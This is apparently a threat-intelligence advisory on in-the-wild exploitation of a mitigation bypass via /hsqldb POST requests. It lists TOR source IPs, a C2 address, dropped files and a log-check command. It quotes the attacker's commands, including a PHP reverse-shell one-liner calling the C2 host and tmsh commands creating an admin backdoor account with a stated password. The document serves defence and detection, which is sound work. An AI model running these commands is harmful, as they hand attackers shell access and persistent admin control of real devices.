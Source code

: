 ## Requests

Looks for POST requests beginning with:

/hsqldb

## Timeline

First use of the mitigation bypass was seen in the wild on Jul 7, 2020 @ 12:39:32.000 (UTC)

## Targeting

We assess that the targeting was widespread, we first saw targeting in Southeast Asia, followed by further targeting in Europe later on in the day by the same actor.

## IP Addresses

Requests were made via TOR, however subsequent C2 took place to a host in South Korea.

Initial requests (TOR):

185.100.86[.]182
185.220.101[.]142

C2 address:

175.199.197[.]167

## Files dropped:

/var/tmp/auth
/tmp/nen.out
/tmp/nen

## Commands run

php -r '$sock=fsockopen("175.199.197[.]167",443);exec("/bin/sh -i <&3 >&3 2>&3");'
tmsh -c 'create auth user systems password ABcD007
tmsh -c 'list auth' > /var/tmp/auth

## Backdoor account

A backdoor account named "systems" is added to the compromised device, with a password of ABcD007.

The account is created with admin privileges.

## Log artifacts

Run the following command to check the web logs:

```
journalctl /bin/logger|grep '"/hsqldb'
```

Any results are an indicator that the mitigation bypass has been attempted
